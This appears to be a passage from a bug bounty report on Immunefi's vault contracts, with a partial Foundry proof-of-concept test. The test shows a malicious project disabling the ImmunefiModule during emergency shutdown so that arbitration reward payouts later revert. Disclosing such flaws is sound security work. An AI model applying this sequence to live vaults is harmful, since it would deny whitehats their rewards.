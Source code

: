 The ability to add/remove guards is not critical in case of emergency, especially given the fact that the Emergency System bypasses both the `ImmunefiModule` and the `ImmunefiGuard`. Moreover, it is imperative that Immunefi vaults are used solely for the purposes of reward distribution for bug bounty programs at Immunefi. Thus, blocking the ability to add/remove modules/guards does not affect the ability of the protocol to withdraw their funds or perform other critical functions in case of an emergency.

## References

https://github.com/immunefi-team/vaults/blob/49c1de26cda19c9e8a4aa311ba3b0dc864f34a25/src/guards/ImmunefiGuard.sol#L66-L68
        
## Proof of concept
## Proof of Concept

The vulnerability could be reproduced by modifying the `Arbitration.t.sol` file and adding the following test to it.

The implemented scenario demonstrates how a malicous project could disable their vault's `ImmunefiModule` during emergency which later on results in revert of payouts which are attempted by the Arbitration system.

```sol
    function testMaliciousProjectCanCauseSendRewardToFailAfterEmergencyShutdown() public {
        // 0. Set right permissions on moduleGuard
        vm.startPrank(protocolOwner);
        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendTokens.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);

        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendReward.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);
        vm.stopPrank();

        // 0. Arbitration ref ID
        uint96 referenceId = 1;

        // 0. Mint feeAmount of feeToken to whitehat
        ERC20PresetMinterPauser token = ERC20PresetMinterPauser(address(arbitration.feeToken()));
        vm.startPrank(protocolOwner);
        token.mint(whitehat, arbitration.feeAmount());
        vm.stopPrank();

        // 1. Protocol owner enables emergency shutdown since a critical issue was found in the Arbitration protocol
        vm.prank(protocolOwner);
        emergencySystem.activateEmergencyShutdown();

        bytes memory disableImmunefiModuleHashData = vault.encodeTransactionData({
            to: address(vault),
            value: 0,
            data: abi.encodeCall(vault.disableModule, (address(0x1), address(immunefiModule))),
            operation: Enum.Operation.Call,
            safeTxGas: 0,
            baseGas: 0,
            gasPrice: 0,
            gasToken: address(0),
            refundReceiver: address(0),
            _nonce: vault.nonce()
        });
```